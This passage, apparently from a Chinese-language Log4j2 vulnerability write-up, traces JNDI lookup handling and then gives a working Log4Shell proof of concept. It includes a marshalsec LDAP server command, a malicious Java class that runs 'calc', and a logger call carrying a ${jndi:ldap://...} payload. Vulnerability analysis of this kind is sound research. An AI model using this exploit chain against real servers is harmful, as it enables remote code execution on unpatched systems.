 调试发现interpolator类的lookup函数会以`:`为分隔符进行分割以获取prefixpos内容，传入的prefixpos内容为jndi字符串因此this.strLookupMap获取到的类为JndiLookup类

![image-20220222221327953](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220222221327953.png)

跟进lookup方法

![image-20220222221859004](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220222221859004.png)

这里跟进到jndiManager的lookup方法

![image-20220222221918531](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220222221918531.png)

![image-20220222222036436](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220222222036436.png)

这里就可以去执行InitialContext.java 原生lookup解析函数,也就是jndi注入漏洞的起点

# 漏洞利用

起一个ldap服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8088/#test
```

编写恶意类test.java

```
public class test {
    public test() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

开启web服务

```
python -m http.server 8088
```

exp

```
package Log4j2;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
public class exp {
    private static final Logger logger = LogManager.getLogger();
    public static void main(String[] args) {
        logger.error("${jndi:ldap://127.0.0.1:1389/#Exploit}");
    }
}
```
